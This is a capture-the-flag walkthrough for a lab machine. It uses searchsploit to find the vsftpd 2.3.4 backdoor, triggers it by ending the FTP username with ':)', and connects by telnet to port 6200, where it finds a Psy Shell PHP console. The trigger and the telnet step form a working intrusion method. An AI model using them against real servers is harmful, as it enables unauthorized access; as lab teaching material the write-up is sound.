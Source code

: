 ```
root@kali: searchsploit vsftpd  
---------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                            |  Path
                                                                                                          | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------------------------- ----------------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                                            | exploits/linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                                            | exploits/windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                                            | exploits/windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                                          | exploits/linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                    | exploits/unix/remote/17491.rb
---------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```

2.3.4 is our target and we can see that there is a metasploit module for a backdoor command execution vulnerability. Reading through the metasploit module we see that a backdoor was introduced to this version and can be quite easily exploited: [https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html](https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html)

Looking at the pastebin link included in the above article we see on lines 37 and 38 that if something ends with the characters `0x3a` followed by `0x29` then the function `vsf_sysutil_extra()` is called. Down on line 76 this function appears to open a `/bin/sh` reverse shell on port 6200. These two characters translate into a smiley face `:)`

So we go back to ftp and this time add a smiley face to the end of both our username and password and see what happens.

We see that when we enter the password :) it appears to hang, but if we go to a new terminal window and connect on port 6200 we get a shell!
```
root@kali: telnet 10.10.10.131 6200
Trying 10.10.10.131...
Connected to 10.10.10.131.
Escape character is '^]'.
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```
We try to figure out who we are with the whoami command, but it looks like we are not in a /bin/sh shell after all: 
```
whoami
PHP Warning:  Use of undefined constant whoami - assumed 'whoami' (this will throw an Error in a future version of PHP) in phar://eval()'d code on line 1
```
Researching what Psy Shell is we find that it is an interactive PHP shell intended to be used by developers. Reading the usage documentation on the github page ( ) we see that there should be a help command that might show us what we can do.
```
help
  help       Show a list of commands. Type `help [foo]` for information about [foo].      Aliases: ?                     
  ls         List local, instance or class variables, methods and constants.              Aliases: list, dir             
  dump       Dump an object or primitive.                                                                                
```